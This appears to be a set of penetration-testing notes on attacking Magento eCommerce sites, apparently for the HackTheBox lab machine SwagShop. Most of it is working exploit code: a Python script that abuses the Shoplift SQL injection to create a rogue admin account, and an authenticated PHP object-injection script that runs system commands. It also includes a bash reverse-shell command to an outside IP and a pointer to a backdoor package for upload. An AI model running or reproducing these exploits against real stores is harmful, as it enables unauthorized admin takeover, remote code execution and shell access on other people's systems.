

_____

Magento is _a platform with built-in PHP, which helps programmers create eCommerce websites_

`/downloader/`
`/RELEASE_NOTES.txt`
# Magento eCommerce - RCE

https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py

```python
import requests
import base64

target_url = "http://swagshop.htb/index.php/admin/Cms_Wysiwyg/directive/index/"
query_template = """
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

query = query_template.replace("\n", "").format(username="dani", password="dani")
pfilter = f"popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{query}"

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is {{block type=Adminhtml/report_search_grid output=getCsvFile}}
directive = "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ"
encoded_pfilter = base64.b64encode(pfilter.encode()).decode()

response = requests.post(target_url, 
                         data={"___directive": directive,
                               "filter": encoded_pfilter,
                               "forwarded": 1})

if response.ok:
    print("WORKED")
    print(f"Check /admin with creds dani:dani")
else:
    print("DID NOT WORK")
```

# Authenticated RCE

/app/etc/local.xml
https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/
```python
#!/usr/bin/env python3
from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print(f"Usage: python {sys.argv[0]} <target> <argument>\nExample: python {sys.argv[0]} http://localhost \"una>
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'dani'
password = 'dani'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:"Zend_Log":1:{s:11:"\x00*\x00_writers";a:2:{i:0;O:20:"Zend_Log_Writer_Mail":4:{s:16:' \
          '"\x00*\x00_eventsToMail";a:3:{i:0;s:11:"EXTERMINATE";i:1;s:12:"EXTERMINATE!";i:2;s:15:"' \
          'EXTERMINATE!!!!";}s:22:"\x00*\x00_subjectPrependText";N;s:10:"\x00*\x00_layout";O:23:"' \
          'Zend_Config_Writer_Yaml":3:{s:15:"\x00*\x00_yamlEncoder";s:%d:"%s";s:17:"\x00*\x00' \
          '_loadedSection";N;s:10:"\x00*\x00_config";O:13:"Varien_Object":1:{s:8:"\x00*\x00_data"' \
          ';s:%d:"%s";}}s:8:"\x00*\x00_mail";O:9:"Zend_Mail":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                 len(arg), arg)

# Setup the mechanize browser and options
br = mechanize.Browser()
# br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)
request = br.open(target)

# Select the correct form based on a unique attribute or position
br.select_form(nr=0)
# If there are multiple forms, you can use an identifier like this:
# br.select_form(predicate=lambda form: 'login[username]' in form)
br.form.find_control(name="login[username]").value = username
br.form.find_control(name="login[password]").value = password

br.method = "POST"
request = br.submit()
content = request.read().decode()

url = re.search(r"ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search(r"var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search(r'src="(.*)\?ga=', request.read().decode())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload.encode()).decode()
gh = md5((payload + install_date).encode()).hexdigest()

exploit = f"{tunnel}?ga={payload}&h={gh}"

try:
    request = br.open(exploit)
    print(request.read().decode())
except (mechanize.HTTPError, mechanize.URLError) as e:
    print(e.read().decode())
```


```bash
python3 37811.py http://swagshop.htb/index.php/admin "bash -i >& /dev/tcp/10.10.14.21/1234 0>&1"
```

# Upload Magento Package

https://github.com/lavalamp-/LavaMagentoBD

```txt
http://10.10.10.140/downloader/
```


